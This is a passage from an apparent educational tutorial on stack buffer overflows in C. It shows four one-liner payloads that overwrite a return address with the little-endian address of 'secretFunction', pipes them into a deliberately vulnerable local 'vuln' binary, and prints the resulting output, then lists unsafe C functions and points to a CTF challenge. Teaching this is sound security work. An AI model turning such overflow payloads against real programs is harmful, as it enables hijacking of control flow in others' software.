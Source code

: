 _Note: Registers are 4 bytes or 32 bits as the binary is compiled for a 32 bit system._

The address of the `secretFunction` is `0804849d` in hex. Now depending on whether our machine is little-endian or big-endian we need to decide the proper format of the address to be put. For a little-endian machine we need to put the bytes in the reverse order. i.e. `9d 84 04 08`. The following scripts generate such payloads on the terminal. Use whichever language you prefer to:

```sh
ruby -e 'print "a"*32 + "\x9d\x84\x04\x08"'

python -c 'print "a"*32 + "\x9d\x84\x04\x08"'

perl -e 'print "a"x32 . "\x9d\x84\x04\x08"'

php -r 'echo str_repeat("a",32) . "\x9d\x84\x04\x08";'
```

_Note: we print \\x9d because 9d was in hex_

You can pipe this payload directly into the `vuln` binary.

```sh
ruby -e 'print "a"*32 + "\x9d\x84\x04\x08"' | ./vuln

python -c 'print "a"*32 + "\x9d\x84\x04\x08"' | ./vuln

perl -e 'print "a"x32 . "\x9d\x84\x04\x08"' | ./vuln

php -r 'echo str_repeat("a",32) . "\x9d\x84\x04\x08";' | ./vuln
```

This is the output that I get:

    Enter some text:
    You entered: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa<rubbish 3 bytes>
    Congratulations!
    You have entered in the secret function!
    Illegal instruction (core dumped)

Cool! we were able to overflow the buffer and modify the return address. The `secretFunction` got called.  But this did foul up the stack as the program expected `secretFunction` to be present.

> ### What all C functions are vulnerable to Buffer Overflow Exploit?

1. gets
2. scanf
3. sprintf
4. strcpy

Whenever you are using buffers, be careful about their maximum length. Handle them appropriately.

> ### What next?

While managing [BackdoorCTF](https://backdoor.sdslabs.co/) I devised a simple challenge based on this vulnerability. [Here](https://backdoor.sdslabs.co/challenges/ECHO). See if you can solve it!